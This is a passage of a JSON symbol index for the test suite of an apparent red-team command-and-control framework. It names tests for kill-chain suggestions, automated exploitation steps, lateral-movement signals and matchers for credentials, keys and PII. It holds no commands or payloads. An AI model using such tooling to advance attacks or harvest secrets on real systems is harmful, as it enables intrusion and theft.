"line": 138, "name": "_fake_run", "signature": "def _fake_run(argv)"}, {"kind": "method", "line": 36, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 40, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 50, "name": "list_tools", "signature": "def list_tools(self)"}, {"kind": "method", "line": 53, "name": "call_tool", "signature": "def call_tool(self)"}]}, {"doc": "Tests for the semantic context advisor in ``modules/reactive_engine.py``.  The advisor must:  * return an empty list when no RAG backend is available * return an empty list when the operator disabled the feature via ``payload.json[reactive_semantic_enabled]`` * surface ``suggest_next`` decisions with priority :data:`SEMANTIC_PRIORITY` when the RAG yields useful hits * never overrule the existing regex-based decisions", "id": "tests/test_reactive_engine_semantic.py", "kind": "module", "label": "test_reactive_engine_semantic.py", "language": "py", "sha256": "09b481caec927516", "symbol_count": 13, "symbols": [{"doc": "Stand-in for :class:`modules.session_rag.SessionRAG`.", "kind": "class", "line": 33, "name": "_FakeRAG", "signature": "class _FakeRAG"}, {"doc": "No RAG instance means no semantic hints, never a crash.", "kind": "function", "line": 46, "name": "test_returns_empty_when_rag_unavailable", "signature": "def test_returns_empty_when_rag_unavailable(monkeypatch)"}, {"doc": "Honour the payload gate exactly once per call.", "kind": "function", "line": 55, "name": "test_returns_empty_when_disabled_via_payload", "signature": "def test_returns_empty_when_disabled_via_payload()"}, {"doc": "A high-score hit becomes a ``suggest_next`` decision.", "kind": "function", "line": 75, "name": "test_emits_priority_five_suggestion", "signature": "def test_emits_priority_five_suggestion()"}, {"doc": "Hits below :data:`SEMANTIC_MIN_SCORE` are dropped.", "kind": "function", "line": 99, "name": "test_skips_low_score_hits", "signature": "def test_skips_low_score_hits()"}, {"doc": "Hits pointing back at the current command and duplicates are dropped.", "kind": "function", "line": 115, "name": "test_skips_same_command_and_dedupes", "signature": "def test_skips_same_command_and_dedupes()"}, {"doc": "Sources that do not match the ``command_<verb>output`` pattern are dropped.", "kind": "function", "line": 142, "name": "test_skips_hits_without_command_prefix", "signature": "def test_skips_hits_without_command_prefix()"}, {"doc": "The engine wires the advisor and includes its decisions.", "kind": "function", "line": 158, "name": "test_engine_uses_semantic_advisor_when_supplied", "signature": "def test_engine_uses_semantic_advisor_when_supplied()"}, {"doc": "A noisy RAG backend never propagates exceptions to the caller.", "kind": "function", "line": 186, "name": "test_advisor_swallows_rag_query_errors", "signature": "def test_advisor_swallows_rag_query_errors()"}, {"kind": "method", "line": 36, "name": "__init__", "signature": "def __init__(self, hits, ready)"}, {"kind": "method", "line": 41, "name": "query", "signature": "def query(self, text, n)"}, {"kind": "class", "line": 189, "name": "_ExplodingRAG", "signature": "class _ExplodingRAG"}, {"kind": "method", "line": 192, "name": "query", "signature": "def query(self, text, n)"}]}, {"doc": "Tests for cli/reactive_hints.py.  Uses a synthetic GraphAdvisor double so the test suite runs without a real graphify graph on disk. The double is injected via duck-typing — the module calls only ``advisor.suggest_next(recent_commands, limit)`` so a minimal stub suffices.", "id": "tests/test_reactive_hints.py", "kind": "module", "label": "test_reactive_hints.py", "language": "py", "sha256": "4e4e4870bfbebd66", "symbol_count": 31, "symbols": [{"doc": "Minimal advisor double used in tests.", "kind": "class", "line": 29, "name": "_FakeAdvisor", "signature": "class _FakeAdvisor"}, {"kind": "function", "line": 42, "name": "advisor_with_three_hints", "signature": "def advisor_with_three_hints()"}, {"kind": "function", "line": 53, "name": "empty_advisor", "signature": "def empty_advisor()"}, {"kind": "class", "line": 57, "name": "TestFirstToken", "signature": "class TestFirstToken"}, {"kind": "class", "line": 71, "name": "TestTruncate", "signature": "class TestTruncate"}, {"kind": "class", "line": 88, "name": "TestExtractLabels", "signature": "class TestExtractLabels"}, {"kind": "class", "line": 111, "name": "TestRenderInlineHints", "signature": "class TestRenderInlineHints"}, {"kind": "method", "line": 32, "name": "__init__", "signature": "def __init__(self, suggestions)"}, {"kind": "method", "line": 36, "name": "suggest_next", "signature": "def suggest_next(self, recent_commands, limit)"}, {"kind": "method", "line": 58, "name": "test_extracts_first_word", "signature": "def test_extracts_first_word(self)"}, {"kind": "method", "line": 61, "name": "test_single_word", "signature": "def test_single_word(self)"}, {"kind": "method", "line": 64, "name": "test_empty_string", "signature": "def test_empty_string(self)"}, {"kind": "method", "line": 67, "name": "test_whitespace_only", "signature": "def test_whitespace_only(self)"}, {"kind": "method", "line": 72, "name": "test_short_string_unchanged", "signature": "def test_short_string_unchanged(self)"}, {"kind": "method", "line": 75, "name": "test_exact_length_unchanged", "signature": "def test_exact_length_unchanged(self)"}, {"kind": "method", "line": 78, "name": "test_long_string_truncated", "signature": "def test_long_string_truncated(self)"}, {"kind": "method", "line": 83, "name": "test_truncation_preserves_start", "signature": "def test_truncation_preserves_start(self)"}, {"kind": "method", "line": 89, "name": "test_picks_label_over_id", "signature": "def test_picks_label_over_id(self)"}, {"kind": "method", "line": 93, "name": "test_falls_back_to_id_when_no_label", "signature": "def test_falls_back_to_id_when_no_label(self)"}, {"kind": "method", "line": 97, "name": "test_skips_empty_entries", "signature": "def test_skips_empty_entries(self)"}, {"kind": "method", "line": 101, "name": "test_respects_limit", "signature": "def test_respects_limit(self)"}, {"kind": "method", "line": 105, "name": "test_truncates_long_labels", "signature": "def test_truncates_long_labels(self)"}, {"kind": "method", "line": 112, "name": "test_disabled_flag_skips_render", "signature": "def test_disabled_flag_skips_render(self, advisor_with_three_hints)"}, {"kind": "method", "line": 117, "name": "test_skip_command_skips_render", "signature": "def test_skip_command_skips_render(self, advisor_with_three_hints)"}, {"kind": "method", "line": 122, "name": "test_empty_command_skips_render", "signature": "def test_empty_command_skips_render(self, advisor_with_three_hints)"}, {"kind": "method", "line": 127, "name": "test_empty_suggestions_skips_render", "signature": "def test_empty_suggestions_skips_render(self, empty_advisor)"}, {"kind": "method", "line": 132, "name": "test_normal_command_renders_hint", "signature": "def test_normal_command_renders_hint(self, advisor_with_three_hints)"}, {"kind": "method", "line": 137, "name": "test_advisor_called_with_correct_command", "signature": "def test_advisor_called_with_correct_command(self, advisor_with_three_hints)"}, {"kind": "method", "line": 142, "name": "test_exception_in_advisor_does_not_propagate", "signature": "def test_exception_in_advisor_does_not_propagate(self)"}, {"kind": "method", "line": 149, "name": "test_all_skip_commands_are_skipped", "signature": "def test_all_skip_commands_are_skipped(self, advisor_with_three_hints)"}, {"kind": "method", "line": 155, "name": "test_limit_is_passed_to_advisor", "signature": "def test_limit_is_passed_to_advisor(self, advisor_with_three_hints)"}]}, {"doc": "Tests for cli.reactive_hints — expanded kill-chain tables.  Covers: - New commands in _KILL_CHAIN_NEXT (auto_pwn, chain, hunt, nuclei, yara, etc.) - New commands in _PHASE_PRIORITY - New session tips and protips - Protip trigger functions", "id": "tests/test_reactive_hints_expanded.py", "kind": "module", "label": "test_reactive_hints_expanded.py", "language": "py", "sha256": "f0ab32e98e23f49d", "symbol_count": 27, "symbols": [{"kind": "class", "line": 13, "name": "TestKillChainNextExpanded", "signature": "class TestKillChainNextExpanded"}, {"kind": "class", "line": 71, "name": "TestPhasePriorityExpanded", "signature": "class TestPhasePriorityExpanded"}, {"kind": "class", "line": 107, "name": "TestProtipsExpanded", "signature": "class TestProtipsExpanded"}, {"kind": "class", "line": 161, "name": "TestProtipTriggers", "signature": "class TestProtipTriggers"}, {"kind": "method", "line": 14, "name": "test_auto_pwn_in_lazynmap_followups", "signature": "def test_auto_pwn_in_lazynmap_followups(self)"}, {"kind": "method", "line": 21, "name": "test_auto_pwn_has_followups", "signature": "def test_auto_pwn_has_followups(self)"}, {"kind": "method", "line": 28, "name": "test_chain_has_followups", "signature": "def test_chain_has_followups(self)"}, {"kind": "method", "line": 34, "name": "test_hunt_has_followups", "signature": "def test_hunt_has_followups(self)"}, {"kind": "method", "line": 40, "name": "test_nuclei_has_followups", "signature": "def test_nuclei_has_followups(self)"}, {"kind": "method", "line": 46, "name": "test_yara_scan_has_followups", "signature": "def test_yara_scan_has_followups(self)"}, {"kind": "method", "line": 52, "name": "test_lazynmap_suggests_nuclei", "signature": "def test_lazynmap_suggests_nuclei(self)"}, {"kind": "method", "line": 58, "name": "test_campaign_has_followups", "signature": "def test_campaign_has_followups(self)"}, {"kind": "method", "line": 64, "name": "test_collab_has_followups", "signature": "def test_collab_has_followups(self)"}, {"kind": "method", "line": 72, "name": "test_exploit_includes_automation", "signature": "def test_exploit_includes_automation(self)"}, {"kind": "method", "line": 80, "name": "test_enum_includes_nuclei", "signature": "def test_enum_includes_nuclei(self)"}, {"kind": "method", "line": 86, "name": "test_postexp_includes_security", "signature": "def test_postexp_includes_security(self)"}, {"kind": "method", "line": 93, "name": "test_lateral_includes_collab", "signature": "def test_lateral_includes_collab(self)"}, {"kind": "method", "line": 99, "name": "test_persist_phase_exists", "signature": "def test_persist_phase_exists(self)"}, {"kind": "method", "line": 108, "name": "test_tips_include_automation", "signature": "def test_tips_include_automation(self)"}, {"kind": "method", "line": 120, "name": "test_tips_include_security", "signature": "def test_tips_include_security(self)"}, {"kind": "method", "line": 130, "name": "test_tips_include_collab", "signature": "def test_tips_include_collab(self)"}, {"kind": "method", "line": 141, "name": "test_tips_include_discovery", "signature": "def test_tips_include_discovery(self)"}, {"kind": "method", "line": 149, "name": "test_session_tips_expanded", "signature": "def test_session_tips_expanded(self)"}, {"kind": "method", "line": 162, "name": "test_os_linux_detection", "signature": "def test_os_linux_detection(self)"}, {"kind": "method", "line": 169, "name": "test_os_windows_detection", "signature": "def test_os_windows_detection(self)"}, {"kind": "method", "line": 175, "name": "test_after_trigger", "signature": "def test_after_trigger(self)"}, {"kind": "method", "line": 181, "name": "test_phase_in_trigger", "signature": "def test_phase_in_trigger(self)"}]}, {"doc": "Tests for new reactive engine matchers.", "id": "tests/test_reactive_lateral_data.py", "kind": "module", "label": "test_reactive_lateral_data.py", "language": "py", "sha256": "3b60f63942e595da", "symbol_count": 26, "symbols": [{"kind": "class", "line": 12, "name": "TestLateralOpportunityMatcher", "signature": "class TestLateralOpportunityMatcher"}, {"kind": "class", "line": 61, "name": "TestDataOfInterestMatcher", "signature": "class TestDataOfInterestMatcher"}, {"kind": "class", "line": 119, "name": "TestReactiveEngineIntegration", "signature": "class TestReactiveEngineIntegration"}, {"kind": "method", "line": 13, "name": "test_kerberos_ticket", "signature": "def test_kerberos_ticket(self)"}, {"kind": "method", "line": 19, "name": "test_rdp_session", "signature": "def test_rdp_session(self)"}, {"kind": "method", "line": 24, "name": "test_smb_admin_share", "signature": "def test_smb_admin_share(self)"}, {"kind": "method", "line": 29, "name": "test_winrm_access", "signature": "def test_winrm_access(self)"}, {"kind": "method", "line": 34, "name": "test_ssh_key", "signature": "def test_ssh_key(self)"}, {"kind": "method", "line": 39, "name": "test_wmi_access", "signature": "def test_wmi_access(self)"}, {"kind": "method", "line": 44, "name": "test_domain_admin", "signature": "def test_domain_admin(self)"}, {"kind": "method", "line": 49, "name": "test_no_match", "signature": "def test_no_match(self)"}, {"kind": "method", "line": 54, "name": "test_confidence", "signature": "def test_confidence(self)"}, {"kind": "method", "line": 62, "name": "test_pii_email", "signature": "def test_pii_email(self)"}, {"kind": "method", "line": 67, "name": "test_pii_ssn", "signature": "def test_pii_ssn(self)"}, {"kind": "method", "line": 72, "name": "test_pii_credit_card", "signature": "def test_pii_credit_card(self)"}, {"kind": "method", "line": 77, "name": "test_secret_api_key", "signature": "def test_secret_api_key(self)"}, {"kind": "method", "line": 82, "name": "test_secret_aws_key", "signature": "def test_secret_aws_key(self)"}, {"kind": "method", "line": 87, "name": "test_secret_private_key", "signature": "def test_secret_private_key(self)"}, {"kind": "method", "line": 92, "name": "test_file_pattern_env", "signature": "def test_file_pattern_env(self)"}, {"kind": "method", "line": 97, "name": "test_file_pattern_config", "signature": "def test_file_pattern_config(self)"}, {"kind": "method", "line": 102, "name": "test_no_match", "signature": "def test_no_match(self)"}, {"kind": "method", "line": 107, "name": "test_confidence_levels", "signature": "def test_confidence_levels(self)"}, {"doc": "Create a ReactiveEngine with mocked advisors to avoid ChromaDB loading.", "kind": "method", "line": 120, "name": "_make_engine", "signature": "def _make_engine(self, matchers)"}, {"kind": "method", "line": 132, "name": "test_lateral_signals_produce_decisions", "signature": "def test_lateral_signals_produce_decisions(self)"}, {"kind": "method", "line": 146, "name": "test_data_signals_produce_decisions", "signature": "def test_data_signals_produce_decisions(self)"}, {"kind": "method", "line": 161, "name": "test_decisions_sorted_by_priority", "signature": "def test_decisions_sorted_by_priority(self)"}]}, {"doc": "Tests for cli/reasoning_stream.py.  The suite drives the parser with synthetic JSONL fixtures so it runs deterministically without a live autonomous daemon. It pins the event-type to icon/style mapping, reward extraction, malformed-line tolerance and the tail-window behaviour the dashboard relies on.", "id": "tests/test_reasoning_stream.py", "kind": "module", "label": "test_reasoning_stream.py", "language": "py", "sha256": "bc713cd3ff4dd64e", "symbol_count": 13, "symbols": [{"kind": "function", "line": 28, "name": "_write_events", "signature": "def _write_events(path, events)"}, {"kind": "function", "line": 32, "name": "test_read_raw_events_missing_file_returns_empty", "signature": "def test_read_raw_events_missing_file_returns_empty(tmp_path)"}, {"kind": "function", "line": 36, "name": "test_read_raw_events_skips_malformed_lines", "signature": "def test_read_raw_events_skips_malformed_lines(tmp_path)"}, {"kind": "function", "line": 46, "name": "test_read_raw_events_honours_limit_tail", "signature": "def test_read_raw_events_honours_limit_tail(tmp_path)"}, {"kind": "function", "line": 53, "name": "test_event_to_entry_step_start_uses_reason_and_source", "signature": "def test_event_to_entry_step_start_uses_reason_and_source()"}, {"kind": "function", "line": 75, "name": "test_event_to_entry_step_done_failure_flips_icon_and_style", "signature": "def test_event_to_entry_step_done_failure_flips_icon_and_style()"}, {"kind": "function", "line": 85, "name": "test_event_to_entry_extracts_reward", "signature": "def test_event_to_entry_extracts_reward()"}, {"kind": "function", "line": 95, "name": "test_event_to_entry_metrics_skip_renders_success_rate", "signature": "def test_event_to_entry_metrics_skip_renders_success_rate()"}, {"kind": "function", "line": 105, "name": "test_event_to_entry_unknown_type_falls_back", "signature": "def test_event_to_entry_unknown_type_falls_back()"}, {"kind": "function", "line": 111, "name": "test_event_to_entry_handles_non_dict_payload", "signature": "def test_event_to_entry_handles_non_dict_payload()"}, {"kind": "function", "line": 117, "name": "test_format_size_threshold", "signature": "def test_format_size_threshold()"}, {"kind": "function", "line": 122, "name": "test_truncate_adds_ellipsis", "signature": "def test_truncate_adds_ellipsis()"}, {"kind": "function", "line": 127, "name": "test_latest_reasoning_end_to_end", "signature": "def test_latest_reasoning_end_to_end(tmp_path)"}]}, {"doc": "Behaviour tests for the unified recommendation engine and its signals.  These tests pin the fusion contract before any consumer is rewired onto the engine: per-signal normalisation, category-prior boosting, cross-signal merge with provenance, deterministic ordering, standalone category surfacing, and graceful degradation when a signal raises.", "id": "tests/test_recommendation.py", "kind": "module", "label": "test_recommendation.py", "language": "py", "sha256": "be19b8ae1f01d4cb", "symbol_count": 36, "symbols": [{"kind": "function", "line": 36, "name": "_ctx", "signature": "def _ctx(limit, recent, phase)"}, {"kind": "class", "line": 46, "name": "_StubSignal", "signature": "class _StubSignal"}, {"kind": "class", "line": 55, "name": "_BoomSignal", "signature": "class _BoomSignal"}, {"kind": "function", "line": 62, "name": "_engine", "signature": "def _engine(signals, resolver, weights)"}, {"kind": "class", "line": 70, "name": "TestFusionCore", "signature": "class TestFusionCore"}, {"kind": "class", "line": 158, "name": "TestAdapters", "signature": "class TestAdapters"}, {"kind": "class", "line": 216, "name": "TestContextAndFactory", "signature": "class TestContextAndFactory"}, {"kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self, name, proposals)"}, {"kind": "method", "line": 51, "name": "propose", "signature": "def propose(self, ctx)"}, {"kind": "method", "line": 58, "name": "propose", "signature": "def propose(self, ctx)"}, {"kind": "method", "line": 71, "name": "test_single_signal_normalises_to_peak", "signature": "def test_single_signal_normalises_to_peak(self)"}, {"kind": "method", "line": 85, "name": "test_cross_signal_merge_sums_and_records_provenance", "signature": "def test_cross_signal_merge_sums_and_records_provenance(self)"}, {"kind": "method", "line": 98, "name": "test_category_prior_boosts_matching_action", "signature": "def test_category_prior_boosts_matching_action(self)"}, {"kind": "method", "line": 115, "name": "test_uncovered_category_surfaces_as_recommendation", "signature": "def test_uncovered_category_surfaces_as_recommendation(self)"}, {"kind": "method", "line": 123, "name": "test_covered_category_not_duplicated_as_standalone", "signature": "def test_covered_category_not_duplicated_as_standalone(self)"}, {"kind": "method", "line": 131, "name": "test_deterministic_ordering_on_score_tie", "signature": "def test_deterministic_ordering_on_score_tie(self)"}, {"kind": "method", "line": 139, "name": "test_limit_is_honoured", "signature": "def test_limit_is_honoured(self)"}, {"kind": "method", "line": 147, "name": "test_failing_signal_is_isolated", "signature": "def test_failing_signal_is_isolated(self)"}, {"kind": "method", "line": 152, "name": "test_zero_weight_signal_contributes_nothing", "signature": "def test_zero_weight_signal_contributes_nothing(self)"}, {"kind": "method", "line": 159, "name": "test_graph_signal_extracts_label_and_score", "signature": "def test_graph_signal_extracts_label_and_score(self)"}, {"kind": "method", "line": 167, "name": "test_policy_signal_emits_categories", "signature": "def test_policy_signal_emits_categories(self)"}, {"kind": "method", "line": 177, "name": "test_recon_signal_maps_items_with_descending_weight", "signature": "def test_recon_signal_maps_items_with_descending_weight(self)"}, {"kind": "method", "line": 196, "name": "test_killchain_signal_uses_adjacency_then_phase", "signature": "def test_killchain_signal_uses_adjacency_then_phase(self)"}, {"kind": "method", "line": 206, "name": "test_killchain_signal_filters_already_run", "signature": "def test_killchain_signal_filters_already_run(self)"}, {"kind": "method", "line": 217, "name": "test_read_recent_commands_orders_and_windows", "signature": "def test_read_recent_commands_orders_and_windows(self, tmp_path)"}, {"kind": "method", "line": 226, "name": "test_read_recent_commands_missing_file", "signature": "def test_read_recent_commands_missing_file(self, tmp_path)"}, {"kind": "method", "line": 229, "name": "test_build_context_resolves_target_and_phase", "signature": "def test_build_context_resolves_target_and_phase(self, tmp_path)"}, {"kind": "method", "line": 234, "name": "test_build_default_engine_always_returns_engine", "signature": "def test_build_default_engine_always_returns_engine(self, tmp_path)"}, {"kind": "class", "line": 160, "name": "_Advisor", "signature": "class _Advisor"}, {"kind": "class", "line": 168, "name": "_Policy", "signature": "class _Policy"}, {"kind": "class", "line": 178, "name": "_Item", "signature": "class _Item"}, {"kind": "class", "line": 185, "name": "_Plan", "signature": "class _Plan"}, {"kind": "function", "line": 188, "name": "_builder", "signature": "def _builder(target, engine, payload)"}, {"kind": "method", "line": 161, "name": "suggest_next", "signature": "def suggest_next(self, recent_commands, limit)"}, {"kind": "method", "line": 169, "name": "get_recommendations", "signature": "def get_recommendations(self, target)"}, {"kind": "method", "line": 179, "name": "__init__", "signature": "def __init__(self, kind, name, reason)"}]}, {"doc": "Spec coverage for :mod:`cli.recon_plan`.  The recon plan glues together :class:`cli.exploration.ExplorationEngine` outputs, the phase-aware ``cli/command_index.json`` map and the current ``payload.json`` mapping. Every test below isolates one boundary of that contract so failures map to a specific responsibility instead of the whole pipeline. Fixtures touch only ``tmp_path``.", "id": "tests/test_recon_plan.py", "kind": "module", "label": "test_recon_plan.py", "language": "py", "sha256": "ba77d96babec310c", "symbol_count": 34, "symbols": [{"kind": "function", "line": 68, "name": "_seed_addon", "signature": "def _seed_addon(addons_dir, name, os_value, triggers)"}, {"kind": "function", "line": 90, "name": "_seed_tool", "signature": "def _seed_tool(tools_dir, name, triggers, command, os_value)"}, {"kind": "function", "line": 110, "name": "_seed_command_index", "signature": "def _seed_command_index(path)"}, {"kind": "function", "line": 130, "name": "_seed_engine", "signature": "def _seed_engine(sessions, addons, tools, nmap_xml, history_rows, current_os)"}, {"doc": "Spec 1 — :func:`build_recon_plan` honours the documented contract.", "kind": "class", "line": 149, "name": "BuildReconPlanContractSpec", "signature": "class BuildReconPlanContractSpec(TestCase)"}, {"doc": "Spec 2 — :func:`render_markdown` produces deterministic output.", "kind": "class", "line": 289, "name": "RenderMarkdownSpec", "signature": "class RenderMarkdownSpec(TestCase)"}, {"doc": "Spec 3 — :func:`write_plan` persists atomically with safe permissions.", "kind": "class", "line": 338, "name": "WritePlanSpec", "signature": "class WritePlanSpec(TestCase)"}, {"doc": "Spec 4 — :func:`render_rich` works with any duck-typed console.", "kind": "class", "line": 379, "name": "RenderRichSpec", "signature": "class RenderRichSpec(TestCase)"}, {"kind": "method", "line": 152, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 176, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 179, "name": "_build", "signature": "def _build(self, current_os, payload)"}, {"kind": "method", "line": 193, "name": "test_plan_includes_addons_matching_open_service", "signature": "def test_plan_includes_addons_matching_open_service(self)"}, {"kind": "method", "line": 199, "name": "test_plan_filters_os_incompatible_addons_on_linux", "signature": "def test_plan_filters_os_incompatible_addons_on_linux(self)"}, {"kind": "method", "line": 204, "name": "test_plan_includes_tools_matching_open_service", "signature": "def test_plan_includes_tools_matching_open_service(self)"}, {"kind": "method", "line": 210, "name": "test_tool_preview_substitutes_payload_placeholders", "signature": "def test_tool_preview_substitutes_payload_placeholders(self)"}, {"kind": "method", "line": 216, "name": "test_plan_excludes_already_executed_addons", "signature": "def test_plan_excludes_already_executed_addons(self)"}, {"kind": "method", "line": 237, "name": "test_plan_includes_phase_priority_command_suggestions", "signature": "def test_plan_includes_phase_priority_command_suggestions(self)"}, {"kind": "method", "line": 243, "name": "test_plan_skips_command_layer_when_index_missing", "signature": "def test_plan_skips_command_layer_when_index_missing(self)"}, {"kind": "method", "line": 259, "name": "test_plan_uses_payload_target_when_argument_missing", "signature": "def test_plan_uses_payload_target_when_argument_missing(self)"}, {"kind": "method", "line": 273, "name": "test_empty_scan_returns_empty_plan", "signature": "def test_empty_scan_returns_empty_plan(self)"}, {"kind": "method", "line": 292, "name": "_plan_with_items", "signature": "def _plan_with_items(self)"}, {"kind": "method", "line": 311, "name": "test_markdown_starts_with_target_header", "signature": "def test_markdown_starts_with_target_header(self)"}, {"kind": "method", "line": 315, "name": "test_markdown_renders_services_table", "signature": "def test_markdown_renders_services_table(self)"}, {"kind": "method", "line": 320, "name": "test_markdown_renders_command_preview_block", "signature": "def test_markdown_renders_command_preview_block(self)"}, {"kind": "method", "line": 325, "name": "test_markdown_handles_empty_plan", "signature": "def test_markdown_handles_empty_plan(self)"}, {"kind": "method", "line": 341, "name": "_plan", "signature": "def _plan(self, target)"}, {"kind": "method", "line": 351, "name": "test_write_creates_expected_filename", "signature": "def test_write_creates_expected_filename(self)"}, {"kind": "method", "line": 358, "name": "test_write_sanitises_target_for_filename", "signature": "def test_write_sanitises_target_for_filename(self)"}, {"kind": "method", "line": 364, "name": "test_write_sets_restrictive_permissions", "signature": "def test_write_sets_restrictive_permissions(self)"}, {"kind": "method", "line": 370, "name": "test_write_overwrites_existing_plan", "signature": "def test_write_overwrites_existing_plan(self)"}, {"kind": "class", "line": 383, "name": "_Recorder", "signature": "class _Recorder"}, {"kind": "method", "line": 389, "name": "test_renders_one_line_per_item", "signature": "def test_renders_one_line_per_item(self)"}, {"kind": "method", "line": 406, "name": "test_renders_friendly_message_when_empty", "signature": "def test_renders_friendly_message_when_empty(self)"}, {"kind": "method", "line": 386, "name": "print", "signature": "def print(self, line)"}]}, {"doc": "Tests for /report and /banners endpoints error handling.  Validates that both endpoints handle: missing files, empty files, invalid JSON, missing dictionary keys, and malformed data.  Since lazyc2.py blocks importing the lazyc2 package (file vs directory package conflict), these tests validate the fixed logic via pure standalone functions that mirror the actual endpoint handlers.", "id": "tests/test_report_banners_endpoints.py", "kind": "module", "label": "test_report_banners_endpoints.py", "language": "py", "sha256": "e1ec3905b28d4d80", "symbol_count": 32, "symbols": [{"doc": "Mirrors the fixed load_banners() from lazyc2.py and storage.py.\n\nHandles: FileNotFoundError, JSONDecodeError, dict format with 'banners' key,\nand flat list format.", "kind": "function", "line": 18, "name": "load_banners", "signature": "def load_banners(path)"}, {"doc": "Mirrors the fixed session data loading logic from /report endpoint.\n\nHandles: FileNotFoundError, JSONDecodeError, empty files.", "kind": "function", "line": 38, "name": "load_json_file_safe", "signature": "def load_json_file_safe(path)"}, {"doc": "Mirrors the fixed /report endpoint data-gathering logic.\n\nReturns:\n    dict with keys: report_data, tools, session_data.", "kind": "function", "line": 55, "name": "build_report_context", "signature": "def build_report_context(report_file, session_file, tools_dir)"}, {"doc": "Mirrors the fixed /banners endpoint HTML table generation logic.\n\nUses .get() for all banner keys to avoid KeyError on missing fields.", "kind": "function", "line": 95, "name": "build_banners_html", "signature": "def build_banners_html(banners)"}, {"doc": "Tests for the fixed load_banners() logic.", "kind": "class", "line": 125, "name": "TestLoadBanners", "signature": "class TestLoadBanners"}, {"doc": "Tests for the fixed banners HTML table generation.", "kind": "class", "line": 184, "name": "TestBannersHTML", "signature": "class TestBannersHTML"}, {"doc": "Tests for the fixed /report data gathering logic.", "kind": "class", "line": 217, "name": "TestReportContext", "signature": "class TestReportContext"}, {"doc": "Tests for the safe JSON file loader used by /report.", "kind": "class", "line": 341, "name": "TestLoadJSONFileSafe", "signature": "class TestLoadJSONFileSafe"}, {"kind": "method", "line": 128, "name": "test_dict_format", "signature": "def test_dict_format(self, tmp_path)"}, {"kind": "method", "line": 146, "name": "test_empty_dict", "signature": "def test_empty_dict(self, tmp_path)"}, {"kind": "method", "line": 153, "name": "test_file_not_found", "signature": "def test_file_not_found(self, tmp_path)"}, {"kind": "method", "line": 157, "name": "test_invalid_json", "signature": "def test_invalid_json(self, tmp_path)"}, {"kind": "method", "line": 163, "name": "test_empty_file", "signature": "def test_empty_file(self, tmp_path)"}, {"kind": "method", "line": 169, "name": "test_flat_list_format", "signature": "def test_flat_list_format(self, tmp_path)"}, {"kind": "method", "line": 187, "name": "test_empty_banners", "signature": "def test_empty_banners(self)"}, {"kind": "method", "line": 191, "name": "test_missing_keys_does_not_crash", "signature": "def test_missing_keys_does_not_crash(self)"}, {"kind": "method", "line": 204, "name": "test_valid_data", "signature": "def test_valid_data(self)"}, {"kind": "method", "line": 220, "name": "test_valid_files", "signature": "def test_valid_files(self, tmp_path)"}, {"kind": "method", "line": 236, "name": "test_empty_session_file", "signature": "def test_empty_session_file(self, tmp_path)"}, {"kind": "method", "line": 249, "name": "test_invalid_json_session", "signature": "def test_invalid_json_session(self, tmp_path)"}, {"kind": "method", "line": 261, "name": "test_missing_session_file", "signature": "def test_missing_session_file(self, tmp_path)"}, {"kind": "method", "line": 271, "name": "test_missing_body_report", "signature": "def test_missing_body_report(self, tmp_path)"}, {"kind": "method", "line": 281, "name": "test_invalid_body_report_json", "signature": "def test_invalid_body_report_json(self, tmp_path)"}, {"kind": "method", "line": 293, "name": "test_session_data_as_list", "signature": "def test_session_data_as_list(self, tmp_path)"}, {"kind": "method", "line": 304, "name": "test_empty_session_list", "signature": "def test_empty_session_list(self, tmp_path)"}, {"kind": "method", "line": 316, "name": "test_missing_tools_dir", "signature": "def test_missing_tools_dir(self, tmp_path)"}, {"kind": "method", "line": 326, "name": "test_invalid_tool_file_does_not_crash", "signature": "def test_invalid_tool_file_does_not_crash(self, tmp_path)"}, {"kind": "method", "line": 344, "name": "test_valid_json", "signature": "def test_valid_json(self, tmp_path)"}, {"kind": "method", "line": 349, "name": "test_empty_file", "signature": "def test_empty_file(self, tmp_path)"}, {"kind": "method", "line": 354, "name": "test_file_not_found", "signature": "def test_file_not_found(self, tmp_path)"}, {"kind": "method", "line": 357, "name": "test_invalid_json", "signature": "def test_invalid_json(self, tmp_path)"}, {"kind": "method", "line": 362, "name": "test_list_json", "signature": "def test_list_json(self, tmp_path)"}]}, {"doc": "Single-call requirement guards for CommandSet methods.  SDD contract: ``require_rhost`` / ``require_lhost`` / ``require_lport`` / ``require_rport`` replace the ``params[...]`` + ``check_*`` two-liner with one fail-closed call. They return exactly what the underlying ``check_*`` returns for present values and ``False`` (with the checker's error message) instead of raising ``KeyError`` when the key is missing.", "id": "tests/test_require_guards.py", "kind": "module", "label": "test_require_guards.py", "language": "py", "sha256": "cc06e5fa223d5168", "symbol_count": 5, "symbols": [{"kind": "class", "line": 21, "name": "TestRequireGuards", "signature": "class TestRequireGuards"}, {"kind": "method", "line": 22, "name": "test_present_valid_values_pass", "signature": "def test_present_valid_values_pass(self, capsys)"}, {"kind": "method", "line": 29, "name": "test_missing_keys_fail_closed_without_keyerror", "signature": "def test_missing_keys_fail_closed_without_keyerror(self, capsys)"}, {"kind": "method", "line": 35, "name": "test_invalid_values_rejected", "signature": "def test_invalid_values_rejected(self, capsys)"}, {"kind": "method", "line": 41, "name": "test_equivalent_to_checkers_on_present_values", "signature": "def test_equivalent_to_checkers_on_present_values(self, capsys)"}]}, {"doc": "Tests for modules/resource_script.py — ScriptContext and ResourceScriptEngine.", "id": "tests/test_resource_script.py", "kind": "module", "label": "test_resource_script.py", "language": "py", "sha256": "a267d407f6951918", "symbol_count": 32, "symbols": [{"doc": "Test suite for ScriptContext and ResourceScriptEngine.", "kind": "class", "line": 10, "name": "TestResourceScript", "signature": "class TestResourceScript"}, {"doc": "Execute an inline script string, returning captured output.", "kind": "method", "line": 14, "name": "_execute", "signature": "def _execute(script)"}, {"doc": "Set a variable, verify _resolve returns it.", "kind": "method", "line": 25, "name": "test_set_and_get", "signature": "def test_set_and_get(self)"}, {"doc": "Set a global, verify it persists via _resolve.", "kind": "method", "line": 31, "name": "test_setg_and_get", "signature": "def test_setg_and_get(self)"}, {"doc": "Set then unset a var, verify it is gone.", "kind": "method", "line": 37, "name": "test_unset_removes_var", "signature": "def test_unset_removes_var(self)"}, {"doc": "Both ${var} and $var resolve identically.", "kind": "method", "line": 46, "name": "test_var_substitution", "signature": "def test_var_substitution(self)"}, 